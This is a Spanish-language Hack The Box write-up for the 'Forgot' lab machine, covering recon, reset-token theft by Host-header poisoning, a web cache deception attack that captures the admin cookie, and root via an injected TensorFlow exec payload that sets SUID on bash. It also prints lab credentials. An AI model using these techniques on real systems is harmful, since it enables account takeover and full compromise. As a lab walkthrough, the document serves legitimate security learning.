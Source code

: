 ```yaml
---
title: Forgot Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Medium]
image:
  path: ../../assets/img/commons/Forgot/Forgot.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.10.11.188 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:34 -05
Initiating SYN Stealth Scan at 00:34
Scanning 10.10.11.188 [65535 ports]
Discovered open port 80/tcp on 10.10.11.188
Discovered open port 22/tcp on 10.10.11.188
Completed SYN Stealth Scan at 00:34, 13.78s elapsed (65535 total ports)
Nmap scan report for 10.10.11.188
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80

```
❯ whatweb http://10.10.11.188
http://10.10.11.188 [503 Service Unavailable] Country[RESERVED][ZZ], HTML5, HTTPServer[Varnish], IP[10.10.11.188], Title[503 Backend fetch failed], UncommonHeaders[retry-after,x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.2)]

```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.188 -oN Versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:55 -05
Nmap scan report for 10.10.11.188
Host is up (0.11s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-title: 503 Backend fetch failed
|_http-server-header: Varnish
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora fuzzeamos por directorios a ver qué encontramos.

`Nota:` Nos tiene que aparecer un panel de login en la propia web, si no te aparece reinicia la máquina (me sucedió por eso lo menciono)

```
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.188/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000001:   200        245 L    484 W      5186 Ch     "# directory-list-2.3-medium.txt"                                             
000000007:   200        245 L    484 W      5186 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"             
000000008:   200        245 L    484 W      5186 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                  
000000003:   200        245 L    484 W      5186 Ch     "# Copyright 2007 James Fisher"                                               
000000010:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000005:   200        245 L    484 W      5186 Ch     "# This work is licensed under the Creative Commons"                          
000000014:   200        245 L    484 W      5186 Ch     "http://10.10.11.188/"                                                        
000000006:   200        245 L    484 W      5186 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"               
000000002:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000004:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000013:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000009:   200        245 L    484 W      5186 Ch     "# Suite 300, San Francisco, California, 94105, USA."                         
000000012:   200        245 L    484 W      5186 Ch     "# on atleast 2 different hosts"                                              
000000011:   200        245 L    484 W      5186 Ch     "# Priority ordered case sensative list, where entries were found"            
000000038:   302        5 L      22 W       189 Ch      "home"                                                                        
000000053:   200        245 L    484 W      5189 Ch     "login"                                                                       
000001706:   200        252 L    498 W      5227 Ch     "forgot"                                                                      
000002357:   302        5 L      22 W       189 Ch      "tickets"                    

```
## Intrusión

En en código fuente podemos ver un usuario potencial

```html
<!-- Q1 release fix by robert-dev-145092 -->
```
Nos montamos un servidor con python por el puerto 80

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora en la ruta **/forgot** que encontramos anteriormente colocamos el usuario que vimos. Realizamos la petición y capturamos la petición con Burpsuite y cambiamos el HOST por nuestra ip y el puerto donde tenemos el servidor

```
GET /forgot?username=robert-dev-145092 HTTP/1.1
Host: 10.10.16.47:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.11.188/forgot
```
Ahora interceptamos la petición de **/reset** colocando el token que nos dio de manera urlencodeada para luego iniciar sesión como **robert-dev-145092**. (Si no te funciona el token a la primera, intenta nuevamente con otro token que te da si te quedaste en escucha con python)

![Burpsuite]({{ 'assets/img/commons/Forgot/Burp.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez obtenido el acceso a la web, vemos que en el apartado **/escalate** podemos enviarle un link para que el admin haga click en él.También si vemos el código fuente en el apartado de escalate podemos ver una ruta **/admin_tickets** si intentamos ingresar vemos que nos dice acceso denegado. Para obtener acceso a esa ruta lo que podemos hacer es lo siguiente:


![Burpsuite]({{ 'assets/img/commons/Forgot/inexistent.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez hemos hecho esto, colocamos en la url lo mismo que le mandamos al admin sólo que hasta **/js** porque o sino Burpsuite no nos intercepta la petición, la mandamos al repeater y allí le colocamos **/test.js** 

![Burpsuite]({{ 'assets/img/commons/Forgot/cambiamos.png' | relative_url }}){: .center-image }
_Petición por Burp_


Veremos que nos dice "404 not found", esto es porque ahora simplemente lo hay que hacer es enviarle otra vez a admin el link, pero esta vez, ponle otra **s** al final del "/test/js", quedaría tal que así "/test.jss" y esperas un poco a que admin le dé click a ese link. Una vez hecho esto, simplemente en la petición anterior, le agregas una **s**

![Burpsuite]({{ 'assets/img/commons/Forgot/cookie.png' | relative_url }}){: .center-image }
_Petición por Burp_

Listo, ya hemos hecho un "cache deception attack" y capturado la cookie de admin en el lado de la respuesta, ahora sólo resta acceder a "/admin_tickets". Simplemente intercepta con Burpsuite y cambias la cookie de session de tu usuario actual por la de admin. y veremos las credenciales del usuario por ssh

![Burpsuite]({{ 'assets/img/commons/Forgot/credenciales.png' | relative_url }}){: .center-image }
_Credenciales_

Nos conectamos por ssh

```
-bash-5.0$ whoami
diego
-bash-5.0$ cat user.txt 
4929615d53c0dcd5c4e69e18d1665e38
-bash-5.0$
```
Podemos ver un script "bot.py" y que se conecta a la base de datos

```python
-bash-5.0$ cat bot.py 
   # Fetch Links
  conn = mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq")
  cursor = conn.cursor()
  cursor.execute('select * from forgot')
  r = cursor.fetchall() 
```

Si hacemos sudo -l podemos ver que tenemos un script que podemos ejecutar de manera privilegiada, si lo vemos nos muestra lo siguiente:

```python
 # Grab links
 conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
 cursor = conn.cursor()
 cursor.execute('select reason from escalate')
 r = [i[0] for i in cursor.fetchall()]
 conn.close()
 data=[]
 for i in r:
         data.append(i)
 Xnew = getVec(data)
```

También podemos una librería **tensorflow** y si buscamos encontramos cómo vulnerarlo para [este](https://github.com/advisories/GHSA-75c9-jrh4-79mc)

```python
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass
```

Lo que hace es verificar patrones maliciosos en la base de datos. Si saturamos esto, podemos inyectar código para que se ejecute. Nos conectamos a la base de datos y ejecutamos lo siguiente:

```
mysql> insert into escalate values ("1","1","1",'test=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');

```

Ahora hacemos **bash -p y obtenemos root**

```
-bash-5.0$ bash -p
bash-5.0# cat /root/root.txt 
d41b9cbb909802752553be9dd7c82720
bash-5.0#
```
